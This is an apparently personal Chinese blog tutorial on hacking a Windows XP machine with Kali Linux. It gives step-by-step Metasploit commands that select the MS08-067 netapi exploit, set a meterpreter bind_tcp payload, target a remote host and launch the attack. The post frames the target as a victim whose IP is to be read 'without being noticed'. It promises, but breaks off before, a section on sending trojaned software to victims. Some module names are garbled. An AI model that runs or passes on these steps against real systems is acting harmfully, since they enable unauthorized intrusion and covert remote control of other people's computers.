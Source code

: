 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux 教程
keywords: windows linux kali 教程 黑
categoty: tech
cover: 'https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/cover.png'
---
```

### 前言
哈喽大家好。我有好久没更新博客了。  
在这段时间里，我变得非常黑。因为我在为kali做准备。  
前一段时间，我的电脑移到其他地方去了，然后我去插那边的网线，结果插上是插上了，响灯也想了，电脑上也写着连接了，有因特访问。可是，我进百度却进半天都没进去，竟然还连接超时，7456。  
然后有人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部*这里我用xp*
  - (可选)摄像头
  - (可选)麦克风

### 目录
- 直接攻击
  - 利用漏洞进行攻击
- 软件攻击
  - 编译软件并发送给受害者
  - 受害者接受并打开软件
  - “注入灵魂”
- 附录
  -Meterpreter命令

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![]({{ site.imgbed }}/img/kalihack/01.png)

### 02. 搜索Xp漏洞
也正是msf是一个安全渗透软件，所以我们可以查看漏洞。输入:
```msf
search platform: windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
但确保你要攻击的电脑有这个ms08漏洞。  
![]({{ site.imgbed }}/img/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
然后你会发现命令的提示符旁边多了个叫做`exploit(windows/smb/ms08_067-netapi)`的东西，表示使用成功。
你可以通过`info *内容名`来详细查看这个内容。
![]({{ site.imgbed }}/img/kalihack/03.png)

### 04.设置载荷
载荷可以说是一个会话的类型设置。你可以看到，命令的末尾有个`bind_tcp`。  
`bind tcp`是比较隐秘的会话。`reverse_tcp`是通过软件发起的对话。我等会儿会讲软件传播。  
```msf
set payload windows/meterpreter/bind_tcp
```

### 05.设置要控制的主机
另外，我们要攻击Xp主机，需要先提前知道Xp的IP地址。  
别被人发现，跑到Xp电脑，输入`ipconfig`查看ip地址。比如，我这里看到ip地址是`192.108.1.104`。    
知道后，回到你的kali前，输入:  
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址，RHOST可以说是全写Remote Host。这里我做个例子，ip地址是192.108.1.104。

### 06.开始攻击！
做完这些后，你就可以开始hack了！输入
```msf
exploit
```
![]({{ site.imgbed }}/img/kalihack/04.png)

***
### 01.编译软件和发送
